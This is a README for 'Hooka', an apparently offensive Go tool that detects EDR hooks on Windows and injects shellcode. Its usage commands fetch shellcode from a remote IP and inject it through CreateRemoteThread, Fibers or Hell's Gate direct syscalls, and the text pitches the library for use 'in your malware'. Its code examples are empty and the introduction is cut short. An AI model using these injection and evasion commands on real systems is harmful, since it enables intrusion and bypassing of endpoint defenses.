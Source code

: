 <p align="center">
  <h1 align="center">Hooka</h1>
  <p align="center">~ Windows hooks detector and shellcode injector written in Golang ~</p>
</p>

<p align="center">
  <a href="#introduction">Introduction</a> •
  <a href="#usage">Usage</a> •
  <a href="#library">Library</a> •
  <a href="#contributing">Contributing</a> •
  <a href="#disclaimer">Disclaimer</a>
</p>

# Introduction

I started this project 

There's not to much info about detecting Windows hooks in ***Golang*** so I decided to try by my own and I've also taken some code from [BananaPhone]() project (thanks a lot to ***C-Sto***)

# Usage

You just have to clone the repository like this:

```sh
git clone https://github.com/D3Ext/Hooka
```

```
```

> Detect hooked functions by EDR
```sh
.\Hooka.exe --hooks
```

> Inject shellcode from URL
```sh
.\Hooka.exe --inject CreateRemoteThread --url http://192.168.116.37/shellcode.bin
```

> Inject shellcode from file
```sh
.\Hooka.exe --inject Fibers --file shellcode.bin
```

> Inject shellcode using Hell's Gate
```sh
.\Hooka.exe --inject CreateRemoteThread --url http://192.168.116.37/shellcode.bin --hells
```

# Demo

> Detecting hooks
<img src="">

> Injecting shellcode via CreateRemoteThread
<img src="">

# Library

If you're looking to implement any function in your malware you can do it using the official library API:

> First of all download the package
```sh
go get github.com/D3Ext/Hooka/pkg
```


```go
...



...
```


```go
...



...
```

# Contributing

Do you wanna improve the code with any idea or code optimization? You're in the right place

See [CONTRIBUTING.md]()

# References

```
https://github.com/C-Sto/BananaPhone
https://www.ired.team/offensive-security/defense-evasion/detecting-hooked-syscall-functions#checking-for-hooks
https://github.com/Kara-4search/HookDetection_CSharp
https://teamhydra.blog/2020/09/18/implementing-direct-syscalls-using-hells-gate/
```

# Disclaimer

Creator isn't in charge of any and has no responsibility for any kind of: illegal use of the project, malicious act, capable of causing damage to third parties

Use this project under your own responsability!

# License

This project is licensed under [MIT]() license

Copyright © 2023, *D3Ext*




